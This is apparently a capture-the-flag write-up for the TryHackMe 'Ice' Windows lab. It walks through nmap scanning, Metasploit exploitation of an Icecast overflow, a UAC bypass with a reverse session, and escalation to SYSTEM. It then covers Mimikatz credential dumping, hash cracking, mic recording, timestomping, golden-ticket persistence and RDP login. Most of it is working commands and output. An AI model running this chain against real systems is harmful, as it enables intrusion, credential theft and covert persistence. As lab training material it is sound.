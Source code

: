 # Ice

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/ice.png)          |
| :------------------ | ------------------------------------- |
| 🔗 Name              | [Ice](https://tryhackme.com/room/ice) |
| 🎯 Target IP         | `10.10.159.9`                         |
| 📈 Difficulty level  | 🟢Easy                                 |
| 💲 Subscription type | Free                                  |
| 🪟 OS                | Windows                               |

---

## Recon

```bash
mkdir ice
cd ice/
sudo nmap -sS -sV -Pn -p- 10.10.159.9
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         Icecast streaming media server
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:58:8C:89:6C:3D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## Exploitation

```bash
msfconsole -q
setg RHOSTS 10.10.159.9
setg RHOST 10.10.159.9
search cve:2004-1561
use exploit/windows/http/icecast_header
run
```

### Local Enumeration

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

```bash
Server username: Dark-PC\Dark

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

1 exploit/windows/local/bypassuac_eventvwr         Yes The target appears to be v erable.
2 exploit/windows/local/ms10_092_schelevator       Yes The service is running, but could not be v dated.
3 exploit/windows/local/ms13_053_schlamperei       Yes The target appears to be v erable.
4 exploit/windows/local/ms13_081_track_popup_menu  Yes The target appears to be v erable.
5 exploit/windows/local/ms14_058_track_popup_menu  Yes The target appears to be v erable.
6 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be v erable.
7 exploit/windows/local/ntusermndragover           Yes The target appears to be v erable.
8 exploit/windows/local/ppr_flatten_rec            Yes The target appears to be v erable.
9 exploit/windows/local/tokenmagic                 Yes The target appears to be vulnerable.
```

---

## Privilege Escalation

```bash
background
sessions
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.10.55.230
set LPORT 4455
run

getprivs
```

```bash
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

---

## Post Exploitation

```bash
pgrep spool
migrate 1376 # poolsv PID
migrate -N spoolsv.exe
getuid 
	Server username: NT AUTHORITY\SYSTEM

# Mimikatz
load kiwi
creds_all
```

> 📌 `Dark`:`Password01!`

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Cracking (extra)

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes_ice.txt
```

![](.gitbook/assets/image-20230510172241398.png)

```bash
screenshare
	file:///root/ipzHMhGp.html
record_mic
timestomp
golden_ticket_create # persistence
```

```bash
run post/windows/manage/enable_rdp
xfreerdp /u:Dark /p:Password01! /v:10.10.159.9
```

![](.gitbook/assets/image-20230510171923611.png)

***
